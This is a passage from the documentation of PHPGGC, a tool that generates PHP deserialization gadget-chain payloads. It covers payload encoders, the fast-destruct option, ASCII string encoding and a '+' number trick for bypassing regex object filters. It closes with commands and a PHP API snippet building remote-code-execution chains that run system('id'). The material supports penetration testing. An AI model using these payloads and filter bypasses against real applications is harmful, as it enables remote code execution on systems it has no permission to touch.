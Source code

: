 
## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.


## Advanced: Enhancements

### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```

### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII value to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`
This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values.
*Note: this is experimental and it might not work in some cases.*

### Plus Numbers

Sometimes, PHP scripts verify that the given serialized payload does not contain objects by using a regex such as `/O:[0-9]+:`. This is easily bypassed using `O:+123:...` instead of `O:123:`. One can use `--plus-numbers <types>`, or `-n <types>`, to automatically add these `+` signs in front of symbols.
For instance, to obfuscate objects and strings, one can use: `--n Os`. Please note that since PHP 7.2, only i and d (float) types can have a +.


# API

Instead of using PHPGGC as a command line tool, you can program PHP scripts:

```php
<?php

# Include PHPGGC
include("phpggc/lib/PHPGGC.php");

# Include guzzle/rce1
$gc = new \GadgetChain\Guzzle\RCE1();

# Always process parameters unless you're doing something out of the ordinary
$parameters = $gc->process_parameters([
	'function' => 'system',
	'parameter' => 'id',
]);
```